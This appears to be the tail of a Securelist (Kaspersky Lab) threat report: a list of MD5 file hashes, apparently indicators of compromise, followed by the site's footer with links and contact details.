0022c1fe1d6b036de2a08d50ac5446a5 0155738045b331f44d300f4a7d08cf21 0275585c3b871405dd299d458724db3d 0ad4892ead67e65ec3dd4c978fce7d92 0ad6da9e62a2c985156a9c53f8494171 1046652e0aaa682f89068731fa5e8e50 10e0699f20e31e89c3becfd8bf24cb4c 1300432e537e7ba07840adecf38e543b 15a4eb525072642bb43f3c188a7c3504 16cda323189d8eba4248c0a2f5ad0d8f 1713e551b8118e45d6ea3f05ec1be529 1a4635564172393ae9f43eab85652ba5 1b9b9c8db7735f1793f981d0be556d88 1d1ed892f62559c3f8234c287cb3437c 1e127b92f7102fbd7fa5375e4e5c67d1 1e47e12d11580e935878b0ed78d2294f 1f43a8803498482d360befc6dfab4218 1fd4a01932df638a8c761abacffa0207 20f8e962b2b63170b228ccaff51aeb7d 26d6bb7a4e84bec672fc461487344829 2908afb4de41c64a45e1eb2503169108 2c6112e1e60f083467dc159ffb1ceb6d 2cba1a82a78f4dcbad1087c1b71588c9 2e2aa05a217aacf3105b4ba2288ad475 36cdf98bc79b6997dd4e3a6bed035dca 36dfd1f3bc58401f7d8b56af682f2c38 39012fb6f3a93897f6c5edb1a57f76a0 3dc8c4af51c8c367fbe7c7feef4f6744 407795b49789c2f9ca6eca1fbab3c73e 45691956a1ba4a8ecc912aeb9f1f0612 4afafa81731f8f02ba1b58073b47abdf 4e107d20832fff89a41f04c4dff1739b 4f16b33c074f1c31d26d193ec74aaa56 50f70e18fe0dedabefe9bf7679b6d56c 5443b81fbb439972de9e45d801ce907a 55040dd42ccf19b5af7802cba91dbd7f 551d41e2a4dd1497b3b27a91922d29cc 56bfe560518896b0535e0e4da44266d6 5aeecb78181f95829b6eeeefb2ce4975 5da203fa799d79ed5dde485c1ed6ba76 608bdeb4ce66c96b7a9289f8cf57ce02 6163103103cdacdc2770bd8e9081cfb4 629f0657e70901e3134dcae2e2027396 643c0b9904b32004465b95321bb525eb 6e564dadc344cd2d55374dbb00646d1b 735ff7defe0aaa24e13b6795b8e85539 751d2771af1694c0d5db9d894bd134ca 763b335abecbd3d9a6d923a13d6c2519 763e07083887ecb83a87c24542d70dc5 7b30231709f1ac69e4c9db584be692f0 7d0bbdda98f44a5b73200a2c157077df 7e3253abefa52aeae9b0451cfb273690 874058e8d8582bf85c115ce319c5b0af 88c0af9266679e655298ce19e231dff1 8ace0c156eb6f1548b96c593a15cbb25 933ab95dbf7eb0e9d9470a9272bfaff3 93e44ecfcffdbb1f7f3119251ddb7670 972092cbe7791d27fc9ff6e9acc12cc3 9865bb3b4e7112ec9269a98e029cf5cb 9ad8c68b478e9030859d8395d3fdb870 9f455f0efe8c5ff69adcc456dcf00da6 a1979aa159e0c54212122fd8acb24383 a4bfd2cfbb235d869d87f5485853edae a8dc8985226b7b2c468bb82bad3e4d76 aa55dedff7f5dbe2cc4a47f2f8d44f94 ac5d3fc9da12255759a4a7e4eb3d63e7 acb01930466438d3ee981cb4fc57e196 acb4c5e2f92c84df15faa4846f17ff4e b2e6d273a9b32739c9a26f267ab7d198 b328a01f5b82830cc250e0e429fca69f b400bb2a2f9f0ce176368dc709359d3d b6c08d0db4ca1d9e16f3e164745810ff b79f7d41e30cf7d69a4d5d19dda8942e bddbb91388dd2c01068cde88a5fb939e c179ad6f118c97d3db5e04308d48f89e c1b48ca3066214a8ec988757cc3022b3 c2472adbc1f251acf26b6deb8e7a174b c687867e2c92448992c0fd00a2468752 c77331b822ca5b78c31b637984eda029 cb915d1bd7f21b29edc179092e967331 cc294f8727addc5d363bb23e10be4af2 d943ccb4a3c802d304ac29df259d14f2 db3e8d46587d86519f46f912700372e0 dbd7d010c4657b94f49ca85e4ff88790 e06a0257449fa8dc4ab8ccb6fbf2c50b e613e5252a7172329ee25525758180a4

e742242f28842480e5c2b3357b7fd6ab e938f73a10e3d2afbd77dd8ecb3a3854 eaee5bf17195a03d6bf7189965ee1bdb ef8e417e5adb2366a3279d6680c3b979 f4eddae1c0b40bfedeb89e814a2267a5 f66992766d8f9204551b3c42336b4f6d fad3a7ea0a0c6cb8e20e43667f560d7f fbc310a9c431577f3489237d48763eea ff7fd55796fa66c8245c0b90157c57c7 100d516821d99b09718b362d5a4b9a2f 6ae1bb06d10f253116925371c8e3e74b 72eff79f772b4c910259e3716f1acf49 85a26581f9aadeaa6415c01de60f932d 9ad6e0db5e2f6b59f14dd55ded057b69 a70fea1e6eaa77bdfa07848712efa259 be935b4b3c620558422093d643e2edfe c70cce41ef0e4a206b5b48fa2d460ba4 41fb85acedc691bc6033fa2c4cf6a0bc 1684a5eafd51852c43b4bca48b58980f 08f83d98b18d3dff16c35a20e24ed49a


Securelist, the resource for Kaspersky Lab experts' technical research, analysis, and thoughts.

Follow us


Kaspersky Lab global Website


Eugene Kaspersky Blog


Kaspersky Lab B2C Blog


Kaspersky Lab B2B Blog


Kaspersky Lab security news service


Kaspersky Lab Academy

### Kaspersky Lab HQ

LIC

39A/3 Leningradskoe Shosse Moscow, 125212 Russian Federation

more contact details

Tel: +7-495-797-8700 Fax: +7-495-797-8709

